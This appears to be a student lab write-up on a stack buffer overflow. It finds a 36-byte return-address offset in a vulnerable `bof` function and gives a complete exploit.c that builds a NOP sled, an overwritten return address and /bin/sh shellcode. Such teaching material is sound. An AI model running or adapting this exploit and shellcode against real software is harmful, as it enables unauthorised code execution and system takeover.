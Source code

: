 ​		Disassemble `bof` function

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab3\images\Snipaste_2022-04-15_18-46-25.jpg" style="zoom:80%;" />

​		It can be seen that the `bof` function ends at the address 0x080484d3. We should change the content of the address here to the address of our shellcode to make the program jump directly to the malicious code we edited at the end.

​		Now that we know that the `bof` function ends at address 0x080484d3, we can set a breakpoint there and check the contents of the stack at this time.

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab3\images\Snipaste_2022-04-15_18-55-01.jpg" style="zoom:80%;" />

​		As can be seen from the figure, the return address is **36 bytes** different from the AAAA we wrote in badfile, which means that in badfile, as long as we add 36 arbitrary characters before the shellcode address, we can change the original return address into a malicious code address and guide the program to jump.

​		At this time, we already know the storage location and rewriting method of the return address. Next, we need to know the first address of the buffer.

<img src="F:\Study_Sources\2022spring\信息安全导论\Lab\Lab3\images\Snipaste_2022-04-15_19-09-16.jpg" style="zoom:80%;" />

​		We choose to store our shellcode **300** bytes away from `buffer[0]` in order to set aside enough NOP as a buffer for deviation. Then, the address of shellcode is regarded as `buffer[128]`, which is **0xbfffed98 + 0x80**

​		The complete code `exploit.c` is as follows:

```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
	*((long *)(buffer + 36)) = 0xbfffed98 + 0x80;
	memcpy(buffer+300, shellcode, sizeof(shellcode));
    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```